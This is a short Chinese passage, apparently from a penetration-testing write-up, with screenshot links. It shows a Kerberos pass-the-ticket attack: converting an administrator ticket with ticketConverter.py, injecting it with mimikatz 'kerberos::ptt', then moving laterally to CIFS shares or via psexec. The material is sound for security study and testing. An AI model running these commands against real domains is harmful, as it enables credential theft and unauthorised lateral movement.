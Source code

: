 [![](assets/1702372846-b50bb45d4903967feb6e0131c2c0b8f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123608-83b309d6-6bb1-1.png)

将生成的适合 Linux 使用的 ccache 格式转换为 Windows 的 kirbi

```bash
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

[![](assets/1702372846-1962b6f307ad2da47f92938f9d1c7acc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123615-8814309a-6bb1-1.png)

通过 mimikatz 加载票据

```bash
kerberos::ptt C:\Python38\Scripts\administrator.kirbi
```

[![](assets/1702372846-a11c8df54fec783c5a3653c4a5286ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123621-8bb3e8d0-6bb1-1.png)

此时即可正式利用，可通过 klist 查看票据确实注入了。然后直接对目标的 cifs 进行 dir 操作，或通过 psexec 等横向手法横向即可。如下图所示：
